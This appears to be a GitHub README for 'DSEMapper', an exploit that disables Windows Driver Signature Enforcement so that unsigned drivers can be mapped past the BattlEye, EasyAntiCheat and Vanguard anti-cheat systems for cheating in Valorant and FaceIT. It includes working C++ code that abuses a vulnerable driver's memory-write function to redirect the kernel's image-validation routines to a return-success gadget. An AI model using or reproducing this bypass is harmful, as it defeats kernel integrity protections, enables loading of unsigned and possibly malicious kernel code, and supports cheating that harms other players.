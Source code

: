 # Full Project
Full project is here https://github.com/i32-Sudo/PdFwKrnlMapper
# DSEMapper
This is my BE / EAC / VGK DSE Exploit that is used in my Driver Mapper for Valorant &amp; FaceIT (But also works on BE/EAC)

# Concept
My DSE Exploit works by taking the SeValidateImageData & SeValidateImageHeader and setting the EIP/RIP to (any) Return (ret 4) instruction in NTOSKRNL ( B8 01 00 00 00 C3 )
```cpp
	bool DisableDSE()
	{
		ULONG64 ReturnAddressOffset = NtoskrnlBaseAddress + RetOffset;

		BOOL Status = Vuln::WriteVirtualMemory(VulnurableDriverHandle, NtoskrnlBaseAddress + SeValidateImageHeaderOffset, &ReturnAddressOffset, sizeof(ReturnAddressOffset));
		if (!Status)
			return false;

		Status = Vuln::WriteVirtualMemory(VulnurableDriverHandle, NtoskrnlBaseAddress + SeValidateImageDataOffset, &ReturnAddressOffset, sizeof(ReturnAddressOffset));
		if (!Status)
			return false;

		return Status;
	}
```
